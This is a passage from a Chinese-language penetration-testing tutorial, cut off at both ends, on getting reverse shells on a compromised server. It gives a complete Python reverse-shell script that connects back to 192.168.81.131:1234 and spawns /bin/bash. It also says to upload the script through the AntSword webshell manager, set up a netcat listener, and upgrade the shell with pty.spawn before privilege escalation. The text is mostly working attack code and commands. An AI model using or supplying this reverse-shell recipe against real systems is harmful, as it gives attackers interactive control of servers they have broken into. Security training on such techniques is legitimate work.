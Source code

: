 ```
php 1234.php
```

![image-20220318143524951](https://gitee.com/xxb667/img/raw/master/img/image-20220318143524951.png)

进行提权的时候可以切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

或用

```
whoami #查看当前用户权限
```



## 3-3 nc_python反弹shell

python文件,生成的python文件名为: **xxb.py**

把文件通过蚁剑进行上传

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.81.131",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

![image-20220318144041309](https://gitee.com/xxb667/img/raw/master/img/image-20220318144041309.png)

服务端监听

```
nc -nvlp 1234
```

蚁剑运行python文件

```
python 1.py
```

![image-20220318144146483](https://gitee.com/xxb667/img/raw/master/img/image-20220318144146483.png)

进行提权的时候可以切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

或用
